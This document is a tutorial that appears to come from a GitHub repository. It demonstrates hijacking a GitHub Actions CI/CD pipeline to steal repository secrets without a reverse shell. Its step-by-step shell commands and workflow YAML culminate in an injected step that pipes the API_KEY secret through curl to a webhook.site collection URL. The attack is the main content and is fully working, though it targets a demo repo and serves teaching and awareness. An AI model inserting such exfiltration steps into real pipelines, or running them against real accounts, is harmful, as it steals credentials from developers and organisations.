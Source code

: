 # Using CI/CD pipelines to infiltrate without dropping a shell

A demo that shows how to hijack a CI/CD pipeline and exfiltrate secrets — without ever dropping a reverse shell. This attack uses GitHub Actions and simulates real-world access to a compromised developer account.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **Git installed and configured** on your machine.
  - You can verify by running: `git --version`
- **Internet access** to connect to GitHub and Webhook.site.
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Use [https://webhook.site](https://webhook.site) to receive the exfiltrated secret.
- **(Optional)** A GitHub personal access token (PAT) if you prefer pushing via HTTPS with authentication.

## Step 1: Create a Simple GitHub Repo
```bash
mkdir ci-cd-hijack-minimal && cd ci-cd-hijack-minimal
echo "This is a test repo." > README.md
git init
git add .
git commit -m "Initial commit"
```
## Step 2: Create a GitHub Actions Workflow

Create the folder:
```bash
mkdir -p .github/workflows
```
Then create .github/workflows/ci.yml:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Print message
      run: echo "Build passed!"
```

## Step 3: Add a Secret

Go to your GitHub repo > Settings > Secrets and Variables > Actions, and add:

Name: `API_KEY`
Value: `minimal_demo_secret_456`

## Step 4: Inject the Malicious Line

Now modify the workflow to include your exfiltration step:

```yaml
- name: Exfiltrate Secret
  run: |
    echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id
```

Full .github/workflows/ci.yml after injection:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Exfiltrate Secret
      run: |
        echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id

    - name: Print message
      run: echo "Build passed!"
```

## Step 5: Obtain WebHook URL

Go to [https://webhook.site/](https://webhook.site/) and copy the value shown in Your unique URL

## Step 6: Push and Trigger the Workflow

git add .
git commit -m "Add basic CI workflow"
git branch -M main
git remote add origin https://github.com/your-username/ci-cd-hijack-minimal.git
git push -u origin main

Then watch the Actions tab in GitHub — and check your Webhook.site to see the stolen secret.

